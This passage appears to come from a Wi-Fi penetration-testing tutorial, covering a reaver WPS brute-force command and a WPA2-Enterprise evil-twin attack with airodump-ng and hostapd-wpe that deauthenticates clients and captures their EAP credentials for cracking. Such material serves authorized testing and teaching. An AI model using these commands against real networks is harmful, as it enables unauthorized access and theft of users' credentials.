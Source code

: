 -> Perform brute force to break the key
```bash
reaver -i wlan0 -b <bssid> -vv --no-nacks -c <channel>
```
-> New equipment has a physical lock, press a WPS button and it will only be active for 2 minutes.

### WPA2-Enterprise Attack
*you can use one or two network cards to increase attack performance on Enterprise Wi-Fi networks

RADIUS is a remote authentication server widely used in Wi-Fi Enterprise networks, where it is essential to ensure secure and managed access control. It can be configured for both authentication and accounting. The main difference between a RADIUS authentication server and an accounting server is in their functions: the authentication server checks the credentials of users trying to access the network, allowing or denying access based on validation (such as username and password) . In contrast, the accounting server records and monitors network usage by authenticated users, collecting data on login times, usage time, and volume of data transferred. Both are essential for managing security and resources on a network, ensuring controlled access and analysis of usage.

In Network Policy Server (NPS), which can be configured on Windows Server, you can define policies to manage authentication, authorization, and accounting on RADIUS networks. This includes configuring authentication methods, connection conditions, and actions to take (such as allowing or denying access). Additionally, you can restrict access to wireless connections only for users who belong to a specific Active Directory group. This configuration allows for centralized and secure control of network access, ensuring that only authorized users can connect.

client -> access point -> radius  
radius -> access point -> client  

To perform the attack it is necessary to interrupt the client's communication with the target Wi-Fi network, deauthenticating it and forcing it to connect to our fake SSID with a fake radius server behind it to capture the username, challenge and EAP response and try to discover the password through cracking.

-> Monitor Wi-Fi network
```bash
airodump-ng wlan0 --essid <essid> -w wpa-en --output-form netxml --write-interval 5
```

-> Install hostapd-wpe
```bash
apt-get install hostapd-wpe
```

-> Change the interface, SSID (same SSID as the network you want to clone), channel (if you are going to use just one card, it is recommended to put the same channel for the server that will be uploaded with hostpad, monitoring with airodump and deauthentication with aireplay-ng)

```bash
vim /etc/hostapd-wpe/hostapd-wpe.conf
```

-> Create a fake access point with a fake radius server to receive authentication from a client and capture the username, challenge and EAP response
```bash
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```
